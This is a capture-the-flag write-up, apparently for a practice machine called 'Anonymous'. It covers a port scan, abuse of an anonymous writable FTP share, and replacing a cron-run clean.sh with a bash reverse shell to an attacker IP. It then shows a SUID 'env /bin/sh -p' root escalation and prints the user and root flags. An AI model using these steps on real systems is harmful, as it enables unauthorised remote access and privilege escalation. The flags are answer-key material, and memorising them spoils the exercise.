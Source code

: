 # Enumerate

```bash
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

## FTP

FTP Anonymous login:
`ftp-anon: Anonymous FTP login allowed`

![[Pasted image 20240505115205.png]]

1) Allowed to upload files to the directory `scripts`.
2) Looks like the `clean.sh` gets run every X minutes, because the file `removed_files.log` gets new lines over time.

# Initial foothold

Edit and upload `clean.sh` to create a reverse shell and wait for the connection:
```clean.sh
#!/bin/bash

bash -i >& /dev/tcp/10.9.0.187/7777 0>&1
```

![[Pasted image 20240505140717.png]]

User flag: `90d6f992585815ff991e68748c414740`
# PrivEsc

System info:
```bash
uname -a

Linux anonymous 4.15.0-99-generic #100-Ubuntu SMP Wed Apr 22 20:32:56 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

LinPEAS output:
![[Pasted image 20240505142004.png]]
![[Pasted image 20240505141943.png]]

Spawn a root shell:
```bash
env /bin/sh -p
```

Root flag: `4d930091c31a622a7ed10f27999af363`